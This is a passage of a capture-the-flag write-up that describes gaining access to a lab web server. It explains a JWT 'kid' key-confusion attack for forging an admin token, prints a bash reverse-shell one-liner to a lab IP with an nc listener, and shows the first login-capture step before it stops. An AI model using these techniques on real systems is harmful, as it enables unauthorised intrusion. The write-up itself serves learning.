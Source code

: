 #

### Initial Access

The dashboard page includes an input field that appears vulnerable to command injection. However, the only command initially executable is `ls`. Commands are executed via API calls to the `execute_command.php` endpoint.

###### JWT-Based Command Execution:
The server relies on a JSON Web Token (JWT) to determine the commands a user can execute. A standard user is restricted to executing the `ls` command. However, this restriction can be bypassed due to a vulnerability in the JWT's `kid` (Key ID) header value, enabling a **key confusion attack**.

###### Key Confusion Attack Explained:
The `kid` value (`/var/www/mykey.key`) points to a file containing the server's signing key. By exploiting this, the `kid` can be manipulated to reference an arbitrary file on the system, such as `/proc/sys/kernel/randomize_va_space`. This tricks the server into using the contents of the targeted file as a signing key.

By re-signing the JWT with a modified payload (e.g., `role: admin`), it is possible to escalate privileges and execute arbitrary commands as an admin user. This privilege escalation enables an attacker to gain access to the web server via a reverse shell connection.

###### Revers Shell: 
Achieving the reverse shell required some trial and error. The typical Bash one-liner: `bash -i >& /dev/tcp/10.21.73.105/9999 0>&1` did not work. Instead, the command was **base64-encoded** and sent via an HTTP request to the server. The server executes the command, and the connection is established using a listener (e.g., `nc -lvnp 9999`).

#### Steps to Reproduce

1. **Copy JWT:**  

   Identify and copy the JWT from intercepted login requests using httpie:
   
```shell
http --form -v --follow POST hammer.thm:1337/ email=tester@hammer.thm password=Password123
```
